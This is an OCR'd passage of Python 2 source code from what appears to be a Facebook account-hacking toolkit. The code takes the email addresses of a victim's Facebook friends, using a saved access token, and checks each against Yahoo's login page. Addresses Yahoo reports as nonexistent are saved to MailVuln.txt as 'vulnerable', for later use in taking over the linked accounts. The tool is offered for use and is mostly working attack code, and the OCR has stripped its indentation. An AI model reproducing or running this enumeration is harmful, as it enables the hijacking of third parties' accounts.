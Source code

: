 try:
mail = z['email']
yahoo = re.compile('@.*')
otw = yahoo.search(mail).group()
if 'yahoo.com' in otw:
br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
br._factory.is_html = True
br.select_form(nr=0)
br['username'] = mail
klik = br.submit().read()
jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
try:
pek = jok.search(klik).group()
except:
print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
continue

if '"messages.ERROR_INVALID_USERNAME">' in pek:
save.write(mail + '\n')
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName \x1b[1;91m:\x1b[1;97m ' + nama
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID \x1b[1;91m:\x1b[1;97m ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]'
print 52 * '\x1b[1;97m\xe2\x95\x90'
else:
print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
except KeyError:
pass

print '\n\x1b[1;91m[+] \x1b[1;97mFinish'
print '\x1b[1;91m[+] \x1b[1;97mSaved \x1b[1;91m:\x1b[1;97m MailVuln.txt'
save.close()
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_yahoo()


def yahoolist():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()
else:
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m')
try:
total = open(files, 'r')
mail = total.readlines()
except IOError:
print '\x1b[1;91m[!] File not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_yahoo()
